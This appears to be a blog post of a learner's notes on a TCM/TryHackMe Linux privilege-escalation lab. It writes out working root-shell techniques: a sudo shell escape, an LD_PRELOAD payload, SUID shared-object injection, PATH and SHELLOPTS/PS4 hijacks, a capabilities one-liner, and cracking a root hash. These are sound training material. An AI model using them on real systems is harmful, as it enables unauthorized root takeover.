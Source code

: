 ```yaml
---
layout: post
title:  "TCM: Linux Priviledge Escalation"
date:   2024-02-02 13:50:01 -0600
categories: TCM
image: /assets/img/linux-privescalation.png
---
```

# Sudo & SUID

Following the course, it starts to get more difficult, when going through the Sudo in 
## Task 8 Sudo (Abusing Intended Functionality)

Shell escaping was fairly straight forward except he didnt explain the multiple lines.
When you have something from gtfobins
```
TERM= sudo more /etc/profile
!/bin/sh
```
it means type the lines 1 at a time, so the second line would be typed after your run the 1st one

## Task 9 Sudo (LD_PRELOAD)
I didn't like this as you had to understand john the ripper, but luckily I was halfway thru the [John the Ripper](
https://tryhackme.com/room/johntheripper0) room so that help get the syntax correct, and look at that wordlist.  Where is that?

```
Your hash.txt file should look like this:
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::


john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=sha512crypt
```
I added the password in the rockyou.txt file so I can make this run, but the format was missing

## Task 10
Here's where the REAL learning begins.  He is using the LD_PRELOAD to preload a c file 

Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id

I really enjoyed this one and had to practice several times before understanding what I'm doing.

## Task 11 SUID (Shared Object Injection)
I would actually STOP here and make sure you understand what he's doing in Task 10.  

Its very similar except he's running suid-so

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id

## Task 12 SUID (Symlinks)

This uses symlink which I'm not too experienced with, but he's using that link to execute in the logs

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: su root
2. The root password is password123
3. Once escalated to root, in command prompt type: su -l www-data
4. In command prompt type: /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: su root
2. The root password is password123
3. As root, type the following: invoke-rc.d nginx rotate >/dev/null 2>&1
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: id

Probably have to re-watch this video

## Task 13 SUID (Environment Variables #1)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env
4. From the output, notice the functions used by the binary.

### Exploitation

Linux VM

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id

## Task 14 SUID (Environment Variables #2)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env2
4. From the output, notice the functions used by the binary.

### Exploitation Method #1

Linux VM

1. In command prompt type:
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
2. In command prompt type:
export -f /usr/sbin/service
3. In command prompt type: /usr/local/bin/suid-env2

### Exploitation Method #2

Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
## Task 15 Capabilities

### Detection

Linux VM

1. In command prompt type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.

Exploitation

### Linux VM

1. In command prompt type:
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
